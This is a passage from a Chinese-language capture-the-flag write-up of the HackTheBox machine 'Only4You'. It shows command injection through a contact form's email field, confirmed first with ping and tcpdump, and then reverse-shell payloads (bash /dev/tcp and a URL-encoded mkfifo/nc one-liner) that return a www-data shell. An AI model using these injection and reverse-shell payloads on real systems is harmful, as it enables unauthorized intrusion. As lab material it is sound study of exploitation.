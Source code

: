 ### 转战主站表单注入

burp里首先用ping验证一下，收到ping。（不过不知道为什么开头有几行由我kali发起的请求？ *:2024/5/18:因为是我连接网页发送payload，开头几行是连接网页时的三次握手以及发送数据包（S代表SYN，.代表ACK，P代表PSH）。*）

payload：`name=admin&email=admin@test.lab;ping 10.xx.xx.xx&subject=asdf&message=asdf`  
响应：
```bash
$ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:53:42.830312 IP 10.xx.xx.xx.57322 > only4you.htb.http: Flags [S], seq 3023393082, win 64240, options [mss 1460,sackOK,TS val 1866577499 ecr 0,nop,wscale 7], length 0
03:53:42.910763 IP only4you.htb.http > 10.xx.xx.xx.57322: Flags [S.], seq 3296966782, ack 3023393083, win 65160, options [mss 1337,sackOK,TS val 1624306828 ecr 1866577499,nop,wscale 7], length 0
03:53:42.910812 IP 10.xx.xx.xx.57322 > only4you.htb.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 1866577580 ecr 1624306828], length 0
03:53:42.910972 IP 10.xx.xx.xx.57322 > only4you.htb.http: Flags [P.], seq 1:672, ack 1, win 502, options [nop,nop,TS val 1866577580 ecr 1624306828], length 671: HTTP: POST / HTTP/1.1
03:53:42.991151 IP only4you.htb.http > 10.xx.xx.xx.57322: Flags [.], ack 672, win 504, options [nop,nop,TS val 1624306908 ecr 1866577580], length 0
03:53:50.371090 IP only4you.htb > 10.xx.xx.xx: ICMP echo request, id 4, seq 1, length 64
03:53:50.371122 IP 10.xx.xx.xx > only4you.htb: ICMP echo reply, id 4, seq 1, length 64
03:53:51.372118 IP only4you.htb > 10.xx.xx.xx: ICMP echo request, id 4, seq 2, length 64
03:53:51.372133 IP 10.xx.xx.xx > only4you.htb: ICMP echo reply, id 4, seq 2, length 64
03:53:52.374083 IP only4you.htb > 10.xx.xx.xx: ICMP echo request, id 4, seq 3, length 64
03:53:52.374100 IP 10.xx.xx.xx > only4you.htb: ICMP echo reply, id 4, seq 3, length 64
03:53:53.375395 IP only4you.htb > 10.xx.xx.xx: ICMP echo request, id 4, seq 4, length 64
03:53:53.375419 IP 10.xx.xx.xx > only4you.htb: ICMP echo reply, id 4, seq 4, length 64
^C
13 packets captured
13 packets received by filter
0 packets dropped by kernel
```


## Initial Access

试了好几个payload都没反应，不知道为什么……如这个：`/bin/bash -i >& /dev/tcp/10.xx.xx.xx/4444 0>&1`

通过下面这个payload成功get shell：  
payload：`name=admin&email=admin@test.lab;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.xx.xx.xx%204444%20%3E%2Ftmp%2Ff&subject=asdf&message=asdf`  
*后面试了下python3的也可以*

```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.11.210] 33262
bash: cannot set terminal process group (1014): Inappropriate ioctl for device
bash: no job control in this shell
www-data@only4you:~/only4you.htb$  id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

